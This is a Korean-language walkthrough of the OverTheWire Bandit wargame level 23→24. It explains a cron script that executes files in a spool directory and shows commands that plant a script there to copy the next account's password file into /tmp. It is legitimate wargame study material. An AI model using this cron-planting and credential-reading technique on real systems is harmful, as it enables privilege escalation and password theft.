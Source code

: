 <img src="https://raw.githubusercontent.com/seongdongjo/Security/refs/heads/main/%ED%95%B4%ED%82%B9%EB%B3%B4%EC%95%88%EA%B4%80%EB%A0%A8img/11.PNG" width="700" height="100" /><br><br>

```
분석방법
1) 정적분석
-> 실행하지않고

2) 동적분석
-> 실행
```
```
#)23->24
23계정으로 접속한 상태이다. 그래서 24계정비밀번호를 알려면 직접못들어가니까
cron으로 분석하고 비밀번호를 얻어야됨

이 문제도 cron문제인데 아래 스크립트가 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname //bandit24에 저장(해당 스크립트가 bandit24.sh라서 bandit24권한으로 실행되서)
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*; //디렉토리에 있는 모든 스크립트를 가져와서 실행!!!(normal.sh) 후 삭제
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)" //소유자를 가져와서
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i  //1분뒤삭제
        fi
        rm -f ./$i
    fi
done


그렇다면 우리는 삭제(/var/spool/bandit24) 사이에 24계정의 비밀번호를 /tmp/~~에 저장하면될듯

> cd /var/spool/bandit24
> echo "cat /etc/bandit_pass/bandit24 > /tmp/normal_text" > normal.sh
즉, cat /etc/bandit_pass/bandit24 > /tmp/normal_text 명령어를 normal.sh에 저장 하겠다.

근데, 위방법은 안되는것이 bandit24에 쓸수있는 권한이없다.
그래서 별도 디렉토리를 만들어서 써야한다.
> mkdir /tmp/nor1
> cd /tmp/nor1
> vim shl.sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/nor1/normal_text

이렇게 하고 저장하면 

> chmod 777 shl.sh (24에게도 권한줘야한다)
> chmod 777 /tmp/nor1
> cp shl.sh /var/spool/bandit24/foo 이렇게하고 기다리면 /tmp/nor1에 normal_text가 만들어진다.

```